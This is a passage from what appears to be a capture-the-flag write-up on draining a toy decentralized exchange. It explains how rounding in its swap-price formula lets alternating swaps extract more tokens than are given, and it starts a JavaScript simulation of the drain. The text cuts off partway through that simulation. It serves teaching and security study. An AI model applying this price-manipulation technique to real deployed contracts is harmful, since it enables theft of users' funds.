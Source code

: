 ```solidity

  // DEX takes "amount" tokens from us
  IERC20(from).transferFrom(msg.sender, address(this), amount);

  // DEX gives "swapAmount" tokens to us
  IERC20(to).approve(address(this), swapAmount);
  IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
}
```

There aren't any obvious attack vectors so far, so let us delve a bit more into the swapping formula. Let `d_t` and `p_t` denote the balance of DEX and Player for token `t` respectively, `a` denote amount, and `sa` denote swap amount. Note that all values are integers, rounded down if needed.

Since we have equal amount of both, without loss of generality, let us swap all of our token 1:

```js
sa = p_1 * (d_2 / d_1) = 10 * (100 / 100) = 10
```

Giving us `p_1 = 0`, `p_2 = 20`, `d_1 = 110`, `d_2 = 90`, that is, we traded 10 of one token to 10 of the other. Now let us do the opposite with the new balances:

```js
sa = p_2 * (d_1 / d_2) = 20 * (110 / 90) = 24
```

Woah! We just got 24 tokens for giving 20, even though they were treated equally in the previous trade. Let us try to simulate this with javascript real quick and see if this goes on:

```js
function simulate(t1_dex, t2_dex, t1_player, t2_player, maxiters = 10) {
  // price function
  const price = (to_dex, from_dex, amount) => Math.floor((amount * to_dex) / from_dex);
  let a, sa;

  console.log(`
  Initial
    D1: ${t1_dex}
    D2: ${t2_dex}
    P1: ${t1_player}
    P2: ${t2_player}`);
  for (i = 1; i != maxiters && t1_dex > 0 && t2_dex > 0; ++i) {
    if (i % 2) {
      // trade 'a' amount of t1 for 'sa' amount of t2
      a = t1_player;
      sa = price(t2_dex, t1_dex, a);
      if (sa > t2_dex) {
        // DEX can't have negative, re-calculate
        // sa equals t2_dex this way:
        sa = price(t2_dex, t1_dex, t1_dex);
      }

      // from (t1) changes for a amounts
      t1_player -= a;
      t1_dex += a;

      // to (t2) changes for sa amounts
      t2_player += sa;
      t2_dex -= sa;
    } else {
      // trade 'a' amount of t2 for 'sa' amount of t1
      a = t2_player;
      sa = price(t1_dex, t2_dex, a);
      if (sa > t1_dex) {
        // DEX can't have negative, re-calculate
        // sa equals t1_dex this way:
```